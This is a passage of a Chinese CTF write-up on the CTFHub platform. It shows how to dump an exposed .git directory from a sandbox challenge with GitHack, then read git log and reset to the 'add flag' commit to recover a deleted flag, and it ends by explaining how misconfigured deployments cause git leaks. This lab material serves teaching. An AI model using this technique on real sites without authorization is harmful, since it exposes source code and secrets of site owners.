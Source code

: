    ```python
   python2 GitHack.py http://challenge-2c6696d984cb9239.sandbox.ctfhub.com:10080/.git/
   ```

   [![BEsYjK.md.png](https://s1.ax1x.com/2020/10/23/BEsYjK.md.png)](https://imgchr.com/i/BEsYjK)

   处理得到：

   [![BEswAH.md.png](https://s1.ax1x.com/2020/10/23/BEswAH.md.png)](https://imgchr.com/i/BEswAH)

   查看历史记录 `git log` 

   ```bash
   D:\ctf\GitHack-master\dist\challenge-2c6696d984cb9239.sandbox.ctfhub.com_10080>git log
   commit ea5a516f056ccb783834f9f98fa422b60a41c780 (HEAD -> master)
   Author: CTFHub <sandbox@ctfhub.com>
   Date:   Fri Oct 23 15:11:17 2020 +0000
   
       remove flag
   
   commit 3874ed3aca9e6ba2698716dbbaed7822e269301e
   Author: CTFHub <sandbox@ctfhub.com>
   Date:   Fri Oct 23 15:11:17 2020 +0000
   
       add flag
   
   commit f3c62ee6aa578cf6ce3ddb1c6e4eac7d739b2125
   Author: CTFHub <sandbox@ctfhub.com>
   Date:   Fri Oct 23 15:11:17 2020 +0000
   
       init
   
   D:\ctf\GitHack-master\dist\challenge-2c6696d984cb9239.sandbox.ctfhub.com_10080>
   ```

   [![BEyAVe.md.png](https://s1.ax1x.com/2020/10/23/BEyAVe.md.png)](https://imgchr.com/i/BEyAVe)

   当前所处版本为 `remove flag` ，flag 应该在 `add flag` 这里。

   于 `add flag` 进行比对， `3874ed3aca9e6ba2698716dbbaed7822e269301e`

   [![BEyG5j.md.png](https://s1.ax1x.com/2020/10/23/BEyG5j.md.png)](https://imgchr.com/i/BEyG5j)

   看到之前被删掉的 falg 了。

   另一种方法：

   直接切换到 `add flag` 版本。

   ```git
   git reset --hard 3874ed3aca9e6ba2698716dbbaed7822e269301e
   ```

   [![BEytGn.md.png](https://s1.ax1x.com/2020/10/23/BEytGn.md.png)](https://imgchr.com/i/BEytGn)

   可以看到目录里可以看到了flag的文件。

2. stash

   当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。
